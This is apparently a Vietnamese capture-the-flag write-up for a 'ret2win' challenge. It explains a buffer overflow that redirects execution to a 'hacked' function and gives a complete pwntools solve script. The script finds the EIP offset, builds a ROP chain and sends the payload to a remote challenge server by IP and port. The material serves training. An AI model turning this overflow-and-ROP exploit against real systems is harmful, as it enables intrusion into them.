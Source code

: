 Để khai thác bài này, chúng ta phải khai thác lỗi Buffer Overflow để ghi đè địa chỉ trả về của hàm main bằng địa chỉ của hàm `**hacked**`.

Mình đã viết một mã python để khai thác tự động thử thách này.
Xem và tải nó tại đây: [solve.py](./solve.py)

```python
from pwn import *

exe = "ret2win" # Thay nó bằng đường dẫn tới file ret2win
elf = context.binary = ELF(exe, checksec=False)

def find_eip_offset(payload):
   p = process(exe)
   p.sendlineafter(b"name:\n",payload)
   p.wait()
   return cyclic_find(p.corefile.eip)

# r = process(exe)

# Bỏ comment dòng dưới nếu muốn chạy trên server, đổi địa chỉ IP và port tương ứng
r = remote("61.14.233.78", 10002)

offset = find_eip_offset(cyclic(100))

hackedAdd = elf.symbols.hacked

rop = ROP(elf)
rop.hacked()
payload = flat({
   offset: rop.chain()
})

r.sendlineafter(b"name:\n", payload)
r.interactive()
```

Cách payload này hoạt động và cách giải tay mình sẽ hướng dẫn trong những buổi training tiếp theo.

![Alt text](/images/writeups/writeup-vsl-ctf-internal-2023/image30.png)
